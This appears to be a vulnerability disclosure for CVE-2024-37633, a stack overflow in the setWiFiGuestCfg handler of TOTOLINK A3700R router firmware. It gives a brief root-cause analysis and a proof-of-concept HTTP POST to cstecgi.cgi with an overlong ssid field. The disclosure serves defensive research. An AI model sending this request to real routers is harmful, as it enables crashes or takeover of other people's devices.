 # TOTOLINK A3700R V9.1.2u.6165_20211012 function setWiFiGuestCfg stack overflow

### Product Information

Product: TOTOLINK A3700R  Firmware Version: V9.1.2u.6165_20211012  

Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：[https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### CVE-ID : 

CVE-2024-37633

### Analysis

`V7 ` retrieves the value from the ` ssid ` field input by the user and processes it in the ` urldecode ` function. The processed result is stored in the stack.

![image-20240613113256753](./image-20240613113256753.png)

But without checking if the length exceeds the buffer.

Therefore, attackers can hijack the program or cause a DDoS attack by carefully constructing data.

![image-20240613113348712](./image-20240613113348712.png)

### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1

Host: 127.0.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:124.0) Gecko/20100101 Firefox/124.0

Accept: application/json, text/javascript, */*; q=0.01

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 333

Origin: http://127.0.0.1

Connection: keep-alive

Referer: http://127.0.0.1/basic/index.html

Cookie: SESSION_ID=2:1718247599:2

Sec-Fetch-Dest: empty

Sec-Fetch-Mode: cors

Sec-Fetch-Site: same-origin



{"topicurl":"setWiFiGuestCfg",

"wifiOff":"0",

"ssid":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"

}
```

![image-20240613113550991](./image-20240613113550991.png)

![image-20240613113704616](./image-20240613113704616.png)
